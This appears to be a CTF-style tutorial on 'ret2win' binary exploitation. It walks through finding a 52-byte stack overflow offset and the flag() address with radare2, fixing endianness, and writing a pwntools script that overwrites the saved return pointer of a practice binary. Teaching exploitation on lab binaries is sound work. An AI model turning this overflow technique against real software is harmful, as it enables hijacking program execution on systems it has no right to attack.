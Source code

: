```yaml
---
description: The most basic binexp challenge
---
```


# ret2win

A **ret2win** is simply a binary where there is a `win()` function (or equivalent); once you successfully redirect execution there, you complete the challenge.

To carry this out, we have to leverage what we learnt in the **introduction**, but in a _predictable manner_ - we have to overwrite EIP, but to a specific value of our choice.

To do this, what do we need to know? Well, a couple things:

* The padding _until_ we begin to overwrite the return pointer (EIP)
* What value we want to overwrite EIP to

{% hint style="warning" %}
When I say "overwrite EIP", I mean overwrite the saved return pointer that gets popped into EIP. The EIP register is not located on the stack, so it is not overwritten directly.
{% endhint %}

{% file src="../../.gitbook/assets/ret2win.zip" %}
ret2win
{% endfile %}

### Finding the Padding

This can be found using simple trial and error; if we send a variable numbers of characters, we can use the `Segmentation Fault` message, in combination with radare2, to tell when we overwrote EIP. There is a better way to do it than simple brute force (we'll cover this in the next post), but it'll do for now.

{% hint style="info" %}
You may get a segmentation fault for reasons other than overwriting EIP; use a debugger to make sure the padding is correct.
{% endhint %}

We get an offset of 52 bytes.

### Finding the Address

Now we need to find the address of the `flag()` function in the binary. This is simple.

```
$ r2 -d -A vuln
$ afl
[...]
0x080491c3    1 43           sym.flag
[...]
```

{% hint style="info" %}
`afl` stands for **A**nalyse **F**unctions **L**ist
{% endhint %}

The `flag()` function is at `0x080491c3`.

### Using the Information

The final piece of the puzzle is to work out how we can send the address we want. If you think back to the introduction, the `A`s that we sent became `0x41` - which is the ASCII code of `A`. So the solution is simple - let's just find the characters with ascii codes `0x08`, `0x04`, `0x91` and `0xc3`.

This is a lot simpler than you might think, because we can specify them in python as hex:

```python
address = '\x08\x04\x91\xc3'
```

And that makes it much easier.

### Putting it Together

Now we know the padding and the value, let's exploit the binary! We can use [`pwntools`](https://github.com/Gallopsled/pwntools) to interface with the binary (check out the [pwntools posts](../../other/pwntools/) for a more in-depth look).

```python
from pwn import *        # This is how we import pwntools

p = process('./vuln')    # We're starting a new process

payload = 'A' * 52
payload += '\x08\x04\x91\xc3'

p.clean()                # Receive all the text

p.sendline(payload)

log.info(p.clean())      # Output the "Exploited!" string to know we succeeded
```

If you run this, there is one small problem: it won't work. Why? Let's check with a debugger. We'll put in a `pause()` to give us time to attach `radare2` onto the process.

```python
from pwn import *

p = process('./vuln')

payload = b'A' * 52
payload += '\x08\x04\x91\xc3'

log.info(p.clean())

pause()        # add this in

p.sendline(payload)

log.info(p.clean())
```

Now let's run the script with `python3 exploit.py` and then open up a new terminal window.

```
r2 -d -A $(pidof vuln)
```

By providing the PID of the process, radare2 hooks onto it. Let's break at the return of `unsafe()` and read the value of the return pointer.

```
[0x08049172]> db 0x080491aa
[0x08049172]> dc

<< press any button on the exploit terminal window >>

hit breakpoint at: 80491aa
[0x080491aa]> pxw @ esp
0xffdb0f7c  0xc3910408 [...]
[...]
```

`0xc3910408` - look familiar? It's the address we were trying to send over, except the bytes have been reversed, and the reason for this reversal is [endianness](https://en.wikipedia.org/wiki/Endianness). Big-endian systems store the **most significant byte** (the byte with the largest value) at the smallest memory address, and this is how we sent them. Little-endian does the opposite ([for a reason](https://softwareengineering.stackexchange.com/questions/95556/what-is-the-advantage-of-little-endian-format)), and most binaries you will come across are little-endian. As far as we're concerned, the byte are stored in _reverse order_ in little-endian executables.

### Finding the Endianness

`radare2` comes with a nice tool called `rabin2` for binary analysis:

```
$ rabin2 -I vuln
[...]
endian   little
[...]
```

So our binary is **little-endian**.

### Accounting for Endianness

The fix is simple - reverse the address (you can also remove the `pause()`)

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

If you run this now, it will work:

```
$ python3 tutorial.py 
[+] Starting local process './vuln': pid 2290
[*] Overflow me
[*] Exploited!!!!!
```

And wham, you've called the `flag()` function! Congrats!

### Pwntools and Endianness

Unsurprisingly, you're not the first person to have thought "could they possibly make endianness simpler" - luckily, pwntools has a built-in `p32()` function ready for use!

```python
payload += '\x08\x04\x91\xc3'[::-1]
```

becomes

```python
payload += p32(0x080491c3)
```

Much simpler, right?

The only caveat is that it returns `bytes` rather than a string, so you have to make the padding a byte string:

```python
payload = b'A' * 52        # Notice the "b"
```

Otherwise you will get a

```
TypeError: can only concatenate str (not "bytes") to str
```

### Final Exploit

```python
from pwn import *            # This is how we import pwntools

p = process('./vuln')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean())          # Output the "Exploited!" string to know we succeeded
```
